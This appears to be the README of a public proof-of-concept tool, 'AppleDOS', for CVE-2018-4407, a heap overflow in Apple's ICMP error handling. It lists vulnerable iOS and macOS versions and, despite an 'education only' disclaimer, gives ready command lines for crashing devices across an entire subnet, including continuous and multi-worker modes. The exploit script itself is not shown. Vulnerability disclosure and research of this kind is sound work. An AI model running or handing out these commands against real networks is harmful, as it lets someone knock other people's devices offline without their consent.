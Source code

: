 # AppleDOS (CVE-2018-4407)

Based on CVE-2018-4407 (https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407), this [tweet](https://twitter.com/ihackbanme/status/1057811965945376768), and this [video](https://twitter.com/kevin_backhouse/status/1057352656560287746). The bug is heap overflow vulnerability in bad packet handling when OS try to send ICMP message containing segments from bad packet back to the sender.

![](demo.gif)

This POC will crashes the vulnerable Apple devices by sending bad TCP packet data containing long TCP/IP header options to overflow the ICMP message when device try to send out the error message. You need the ability to send network packet data directly to the device (e.g. on the same local network).

The following operating system versions and devices are vulnerable:
- Apple iOS 11 and earlier: all devices
- Apple macOS High Sierra, up to and including 10.13.6: all devices
- Apple macOS Sierra, up to and including 10.12.6: all devices
- Apple OS X El Capitan and earlier: all devices

## WARNING

FOR EDUCATION ONLY. DON'T DO ANYTHING ILLEGAL WITH THIS SCRIPT. THE AUTHOR IS NOT RESPONSIBLE FOR ANY MALICIOUS ACTS OR DAMAGE FROM THIS SCRIPT.

## Example

Make sure you have Python 3 and scapy.

```
pip install scapy
# or
pip3 install scapy
```

You may need to run the script as root.

Send bad packet to 192.168.1.0/24 subnet.

```
sudo ./appledos.py 192.168.1.0/24
```

Shows IP after packet sent.

```
sudo ./appledos.py --verbose 192.168.1.0/24
```

Send bad packet to 192.168.1.0/24 subnet continuously.

```
sudo ./appledos.py --continuous 192.168.1.0/24
```

Change destination port (default: 80). You can change to any port since devices will respond to any incoming packet to any port but you may want to concern about port blocking or firewall in the host or network.

```
sudo ./appledos.py --continuous --port 22 192.168.1.0/24
```

Send bad packet to only one IP.

```
sudo ./appledos.py 192.168.1.118
```

Set maximum workers (default: 100).

```
sudo ./appledos.py --worker 10 192.168.1.0/24
```

## Note

This script is using scapy and it has known issue for handling `/dev/bpf` (Berkeley Packet Filter) when sending packet data from OS like macOS with multi-thread. If you encounter `No /dev/bpf handle is available`, try to reduce the worker number to 1 or 2. Or, you can just use Linux like in the demonstration video.
